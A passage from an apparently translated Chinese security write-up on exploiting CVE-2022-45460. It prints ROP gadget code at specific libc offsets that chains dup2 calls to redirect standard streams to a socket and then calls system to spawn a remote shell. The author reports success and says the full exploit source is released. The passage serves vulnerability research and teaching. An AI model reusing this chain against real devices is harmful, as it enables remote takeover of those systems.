   
接下来是调用dup2。为了实现目标，需要为STDIN、STDOUT和STDERR分别调用该函数三次。对于所有三次调用，R0应始终设置为通过fileno检索到的文件描述符，而R1则从0开始，然后是1，最后是2。第一次调用可以不设置，因为R1已经设置为0。  
  
```
p += p32(libc_base + 0xce5c + 0x4) # dup2, r1 = 0
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX" # r7 padding 

```  
  
  
对于第二次调用，我找到了一个gadget，它在跳转到R5中的地址之前将1移动到R1中，而R5中已经存储了dup2的地址。  
‍  
  
```
p += p32(libc_base + 0x1cdcc) # mov r1, #1；mov r2, r6；blx r5
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX" # r7

```  
  
  
不幸的是，我找不到一个可行的gadget来实现第三次调用。因此，这留给读者作为练习。现在，剩下的就是重用第一个简单漏洞利用中的链来生成一个shell。  
‍  
  
```
p += p32(libc_base + 0x175cc) # pop {r3, pc}；
p += p32(libc_base + 0x535e8) # system
p += p32(libc_base + 0x368dc) # mov r0, sp；blx r3

```  
  
  
至此，终于到了测试的时候了。  
‍  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSWGjiaxicD2QJYKeDNqbShKjIUX7jNoLCib7ZHFOicnIGd3O7rogCOy0iaicOsPU2lPJpGr4LQUdQY78cw/640?wx_fmt=png&from=appmsg "")  
  
  
成功了！比第一次尝试的解决方案优雅得多。无需启动telnetd服务器或建立反向shell！最终的漏洞源代码可以在这里找到。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**十、总结**  
  
  
正  
如在过程中提到的，我在开发Exp后才发现，这里讨论的漏洞已经被识别并跟踪为CVE-2022-45460[17]。此外，已经存在一个利用栈上shellcode实现RCE的Exp[18]。显然，我最初对产品的研究并不够彻底。尽管如此，我在探索利用该漏洞的替代方法中获得了许多乐趣，并在此过程中学到了很多。鉴于公开漏洞利用程序的存在，我们觉得发布我的完整漏洞利用程序是合适的，尽管在其他情况下我们通常会避免这样做  
。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**参考文献**  
  
  